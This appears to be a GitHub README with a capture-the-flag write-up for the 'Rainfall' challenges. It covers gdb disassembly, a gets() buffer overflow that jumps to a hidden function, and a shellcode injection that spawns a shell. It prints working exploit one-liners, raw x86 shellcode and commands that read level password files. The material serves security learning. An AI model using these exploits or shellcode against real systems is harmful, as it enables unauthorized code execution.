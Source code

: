 # Rainfall

---

## Introduction

Welcome to **Rainfall**, the continuation of **snow-crash**, a series of hands-on challenges in cyber security. Each level presents a unique puzzle or exploit that you must solve to uncover a hidden flag and progress to the next challenge. Whether you're a beginner or an experienced hacker, these exercises are designed to sharpen your problem-solving skills and broaden your knowledge of various cyber security concepts.

|<h1>Cyber Security</h1>|
|-|
| <img width="500px" src="https://www.asylas.com/asylas/security-memes-our-year-end-humor-break/" alt="Cyber Security Meme"> |


<details>
<summary>Notes:</summary>

Registers: Think of registers like small, very fast storage spaces inside the CPU. The key registers we’ll see here are:

    ebp (Base Pointer): Used to mark the start of the current function’s stack frame (a region of memory for the function’s variables).
    esp (Stack Pointer): Points to the top of the stack (a dynamic region of memory where temporary data is stored and managed).
    eax, edx: General-purpose registers used for calculations and temporarily holding values.

Stack: A stack is like a pile of plates. You can only add (push) or remove (pop) plates from the top. It’s used to keep track of function calls, local variables, and temporary data.

Instructions: Assembly instructions are commands to the CPU. For example:

    push: Places (stores) a value on the stack.
    mov: Moves data from one place to another (e.g., from a register to memory or vice versa).
    call: Jumps to another function.
    ret: Returns from a function.
</details>

---

## ![Level 0](https://img.shields.io/badge/Level-0-blue) Disassemble the Memory

![Disassemble the Memory](https://img.shields.io/badge/Disassemble%20the%20memory-ASM-blue?style=for-the-badge&logo=lock)

**Description:** In this level, you need to disassemble the memory and identify an execution path that will reveal the password for the next level if the `cmp` condition is met.

### Steps:
1. **Load the Program into the Debugger**:
   ```bash
   gdb level0
   disas main
   ```
   You'll see something like:
   ```
   0x08048ed4 <+20>:   call   0x8049710 <atoi>
   >0x08048ed9 <+25>:  cmp    $0x1a7,%eax
   ```

2. **Convert the Comparison Value**:
   ```bash
   echo $((16#1a7)) # Output: 423
   ```

3. **Run the Program with the Correct Input**:
   ```bash
   ./level0 423
   ```

4. **Retrieve the Password**:
   ```bash
   whoami # level1
   cat /home/user/level1/.pass
   exit
   ```

---

## ![Level 1](https://img.shields.io/badge/Level-1-green) Buffer Overflow with `gets()`

![Buffer Overflow](https://img.shields.io/badge/Buffer%20Overflow%20gets()-clib-blue?style=for-the-badge&logo=lock)

**Description:** This level features a buffer overflow vulnerability in the unsafe `gets()` function. By exploiting this vulnerability, you can overwrite the stack and call the hidden `run()` function.

### Steps:
1. **Analyze the Program**:
   ```bash
   gdb level1
   i func # Look for 'run' function address (e.g., 0x08048444)
   disas main
   ```
   You’ll see:
   ```
   0x08048490 <+16>:   call   0x8048340 <gets@plt>
   ```

2. **Calculate the Offset**:
   ```bash
   echo $((0x08048490 - 0x08048444)) # Output: 76 bytes
   ```

3. **Test the Buffer Overflow**:
   ```bash
   (python -c 'print("A" * 76)'; cat -) | ./level1
   # Results in: Illegal instruction or segmentation fault
   ```

4. **Prepare the Exploit**:
   - Find the `run` function address:
     ```bash
     objdump -d ./level1 | grep run
     # Output: 08048444 <run>:
     ```

   - Execute the exploit:
     ```bash
     (python -c 'print("A" * 76 + "\x44\x84\x04\x08")'; cat -) | ./level1
     ```

5. **Retrieve the Password**:
   ```bash
   whoami # level2
   cat /home/user/level2/.pass
   exit
   ```

---

## ![Level 2](https://img.shields.io/badge/Level-2-yellow) Shellcode Injection

![Shellcode Injection](https://img.shields.io/badge/Shellcode-Injection-yellow?style=for-the-badge&logo=lock)

**Description:** This level features a buffer overflow vulnerability where you can inject shellcode into a buffer and overwrite the return address to execute it. The shellcode spawns a shell, allowing access to the next level.

### Steps:
1. **Analyze the Program**:
   ```bash
   objdump -d ./level2
   ```
   Look for:
   - Use of `gets()` to populate a buffer (e.g., 76 bytes on the stack).
   - Vulnerable return address checks.

2. **Prepare the Shellcode**:
   - Example shellcode to spawn `/bin/sh`:
     ```assembly
     "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
     ```
   - Shellcode length: **21 bytes**.

3. **Craft the Exploit**:
   - Fill the buffer with the shellcode, padding, and return address:
     ```bash
     (python -c 'print("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "A" * (76 - 21 + 4) + "\x08\xa0\x04\x08")'; cat -) | ./level2
     ```

4. **Retrieve the Password**:
   ```bash
   whoami # level3
   cat /home/user/level3/.pass
   exit
   ```

---

## Conclusion

Rainfall challenges provide an engaging and hands-on way to learn about cyber security concepts such as:
- Buffer overflows
- Shellcode injection
- Binary disassembly
- Exploiting unsafe functions like `gets()`

Each level builds on the previous one, allowing you to gradually deepen your understanding of these critical vulnerabilities and how to exploit or prevent them.

Let’s continue breaking things responsibly and learning to build stronger systems!

---